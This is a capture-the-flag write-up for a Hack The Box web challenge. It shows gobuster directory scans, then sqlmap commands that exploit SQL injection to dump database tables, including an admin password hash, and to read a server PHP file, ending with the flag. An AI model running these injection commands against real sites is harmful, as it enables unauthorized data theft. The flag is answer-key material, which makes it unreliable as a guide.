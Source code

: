 # TITLE: Freelancer

## CHALLENGE INFOS

Type: Web

Server: 157.245.46.178:32726

Task: Can you test how secure my website is? Prove me wrong and capture the flag!

## FIRST THOUGHTS

It might be a SQL injection
I already saw the theme on start.bootstrap, maybe it's not that different

## ATTEMPS

Let's try using gobuster to scan the directories of the website

```bash

gobuster dir -u http://157.245.46.178:32726/ -w /usr/share/wordlists/dirb/big.txt

```

Here is the result

```bash
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://157.245.46.178:32726/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/12/01 04:19:42 Starting gobuster
===============================================================
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/administrat (Status: 301)
/css (Status: 301)
/favicon.ico (Status: 200)
/img (Status: 301)
/js (Status: 301)
/mail (Status: 301)
/robots.txt (Status: 200)
/server-status (Status: 403)
/vendor (Status: 301)
===============================================================
2020/12/01 04:21:26 Finished
===============================================================
```

We can see /administrat is really interesting
I tried to look up robots.txt, .htpasswor and .htaccess but wasn't able to read them
Then i tried to scan for .php and html files and found out that the server was running php code on backend

```bash
gobuster dir -u http://157.245.46.178:32726/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x php, html
```

Let's search for /administrat/panel.php

![/administrat/index.php](/FreeLancer/login.png "/administrat/index.php")

As you can see the website redirects to /administrat/index.php which is a login page
Maybe it's running some sort of SQL Database on backend?

Let's search on the main page if we can find something
On the index.php page we can find this href

```html
<a href="portfolio.php?id=1">Portfolio 1</a>
```

We know for sure now it's running some SQL database

Let's try to get tables list with sqlmap

```bash
sqlmap -u http://157.245.46.178:32726/portfolio.php?id=1 --tables
```

Here is the result

```bash
[04:41:09] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[04:41:09] [INFO] fetching database names
[04:41:09] [INFO] fetching tables for databases: 'freelancer, information_schema, mysql, performance_schema'
Database: freelancer
[2 tables]
+----------------------------------------------------+
| portfolio                                          |
| safeadmin                                          |
+----------------------------------------------------+
```

We did find 2 tables!
Let's try now use sqlmap to scan the tables rows

```bash
sqlmap -u http://157.245.46.178:32726/portfolio.php?id=1 -T portfolio --dump
```

```bash
| id | name        | content
| 1  | Log Cabin 1 | Lorem ipsum dolor sit amet, consectetur adipisicing elit. Mollitia neque assumenda ipsam nihil, molestias magnam, recusandae quos quis inventore quisquam velit asperiores, vitae? Reprehenderit soluta, eos quod consequuntur itaque. Nam. |
| 2  | Log Cabin 2 | Lorem ipsum dolor sit amet, consectetur adipisicing elit. Mollitia neque assumenda ipsam nihil, molestias magnam, recusandae quos quis inventore quisquam velit asperiores, vitae? Reprehenderit soluta, eos quod consequuntur itaque. Nam. |
| 3  | Log Cabin 3 | Lorem ipsum dolor sit amet, consectetur adipisicing elit. Mollitia neque assumenda ipsam nihil, molestias magnam, recusandae quos quis inventore quisquam velit asperiores, vitae? Reprehenderit soluta, eos quod consequuntur itaque. Nam. |
```

We got it!

Now let's try for safeadmin

```sql
+----+--------------------------------------------------------------+----------+---------------------+
| id | password                                                     | username | created_at          |
+----+--------------------------------------------------------------+----------+---------------------+
| 1  | $2y$10$s2ZCi/tHICnA97uf4MfbZuhmOZQXdCnrM9VM9LBMHPp68vAXNRf4K | safeadm  | 2019-07-16 20:25:45 |
+----+--------------------------------------------------------------+----------+---------------------+
```

We got username and password but it's encrypted... I know for sure it's using some sort of BCrypt to hash the password but it's really hard to bruteforce the password

The last thing we can try is to get /administrat/panel.php page, maybe the flag is there?

## SOLUTION

```bash
sqlmap -u http://157.245.46.178:32726/portfolio.php?id=1 --file-read=/var/www/html/administrat/panel.php
```

```bash
[04:57:14] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[04:57:14] [INFO] fingerprinting the back-end DBMS operating system
[04:57:14] [INFO] the back-end DBMS operating system is Linux
[04:57:14] [INFO] fetching file: '/var/www/html/administrat/panel.php'
do you want confirmation that the remote file '/var/www/html/administrat/panel.php' has been successfully downloaded from the back-end DBMS file system? [Y/n] Y
[04:57:21] [INFO] the local file '/home/kali/.local/share/sqlmap/output/157.245.46.178/files/_var_www_html_administrat_panel.php' and the remote file '/var/www/html/administrat/panel.php' have the same size (880 B)
files saved to [1]:
[*] /home/kali/.local/share/sqlmap/output/157.245.46.178/files/_var_www_html_administrat_panel.php (same file)

[04:57:21] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/157.245.46.178'

[*] ending @ 04:57:21 /2020-12-01/
```

So now if we cat the result file we should see panel.php page

```bash
cat /home/kali/.local/share/sqlmap/output/157.245.46.178/files/_var_www_html_administrat_panel.php
```

HERE IT IS:

```html
<body>
    <div class="page-header">
        <h1>Hi, <b><?php echo htmlspecialchars($_SESSION["username"]); ?></b>. Welcome to our site.</h1><b><a href="logout.php">Logout</a></b>
<br><br><br>
        <h1>HTB{s4ff_3_1_w33b_fr4__l33nc_3}</h1>
    </div>
</body>
```

Flag: HTB{s4ff_3_1_w33b_fr4__l33nc_3}
